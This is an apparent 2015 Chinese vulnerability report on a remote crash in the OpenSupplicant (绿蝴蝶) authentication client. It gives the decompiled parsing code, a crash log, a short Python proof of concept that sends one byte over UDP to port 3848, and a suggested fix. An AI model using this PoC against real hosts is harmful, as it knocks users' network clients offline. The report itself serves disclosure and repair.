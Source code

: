 漏洞递交时间:  2015/1/7  (YY/MM/DD)

漏洞等级:  8  (RANK:1-16)

漏洞类型:程序缺陷

漏洞标题:绿蝴蝶远程数据注入导致程序崩溃

漏洞说明:绿蝴蝶在接收数据时,某远程主机向此发送任意数据会导致泛型列表溢出而导致程序崩溃,崩溃代码如下:



```visual basic
Public Shared Function ParseResponseBody(ByVal buf As Byte()) As Dictionary(Of Byte, List(Of Byte()))
    Dim buffer As Byte() = New Byte(&H10  - 1) {}
    Dim i As Byte = 0
    Do While (i < &H10)
        buffer(i) = buf((i + 2))
        buf((i + 2)) = 0
        i = CByte((i + 1))
    Loop
    '' …
End Function

Private Sub unpack(ByVal buf As Byte())
    Dim dictionary As Dictionary(Of Byte, List(Of Byte())) = ProtocalUtil.ParseResponseBody(Crypto3848.decrypt(buf))
    Select Case dictionary.Item(0).Item(0)(0)
        Case 2
            If (Not dictionary.Item(3).Item(0)(0) Is 1) Then
                Me.OnLoginFailure(New AmtiumLoginFailureEventArgs(Convert.BytesToString(dictionary.Item(11).Item(0))))
                Return
            End If
            Me.OnLoginSuccess(New AmtiumLoginSuccessEventArgs(Convert.BytesToString(dictionary.Item(8).Item(0)), Convert.BytesToString(dictionary.Item(11).Item(0)), Convert.BytesToString(dictionary.Item(&H13).Item(0))))
            Return
        Case 3, 5, 7
            Exit Select
        Case 4
            Dim seq As Integer = (Convert.BytesToInt(dictionary.Item(20).Item(0)) - &H1000000)
            Me.m_seq = (seq + 3)
            Me.OnPolled(New AmtiumPolledEventArgs((dictionary.Item(3).Item(0)(0) Is 1), Convert.BytesToString(dictionary.Item(8).Item(0)), seq))
            Return
        Case 6
            Me.OnLogouted(New EventArgs)
            Return
        Case 8
            Dim list As New List(Of String)
            Dim buffer As Byte()
            For Each buffer In dictionary.Item(10)
                list.Add(Convert.BytesToString(buffer))
            Next
            Me.OnGotServices(New AmtiumGotServicesEventArgs(list.ToArray))
            Return
        Case 9
            Me.OnDisconnected(New AmtiumDisconnectedEventArgs(Convert.BytesToString(dictionary.Item(8).Item(0)),dictionary.Item(&H24).Item(0)(0)))
            Return
        Case 13
            Dim buffer2 As Byte() = dictionary.Item(12).Item(0)
            Me.OnGotServerIp(New AmtiumGotServerIpEventArgs(String.Concat(New Object() { buffer2(0), ".", buffer2(1), ".", buffer2(2), ".", buffer2(3) })))
            Exit Select
        Case Else
            Return
    End Select
End Sub
```



代码中用粗体标出的地方均有超出范围的可能.

 

异常描述:
问题事件名称:                   CLR20r3

  问题签名 01:                  opensupplicant.exe

  问题签名 02:                  1.3.0.0

  问题签名 03:                  5052c013

  问题签名 04:                  OpenSupplicant

  问题签名 05:                  1.3.0.0

  问题签名 06:                  5052c013

  问题签名 07:                  ec

  问题签名 08:                  0

  问题签名 09:                  System.IndexOutOfRangeException

 

漏洞证明:

POC 代码如下(向远程主机发送一位数据[0x01]):



```python
import socket
import struct

sock=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
sock.bind(('127.0.0.1',10000))
send_buffer=struct.pack('1s','1')
sock.sendto(send_buffer,('127.0.0.1',3848))
```

 

客户端接收到该数据时,执行完解码数据过后还会执行数据校验函数(ParseResponseBody),由于POC只发送一位数据,所以代码:



```visual basic
Do While (i < &H10)
    buffer(i) = buf((i + 2))
    buf((i + 2)) = 0
    
    i = CByte((i + 1))
Loop
```



中buf 的长度为1 ,而数据清零的范围为2-17 ,超出buf 的上标,故引发异常.VS 2012 下的超出索引测试 

 

![图片](pic_temp1\psb1.png) 



![图片](pic_temp1\psb2.png)



漏洞修复建议:unpack 函数外添加一层try 保护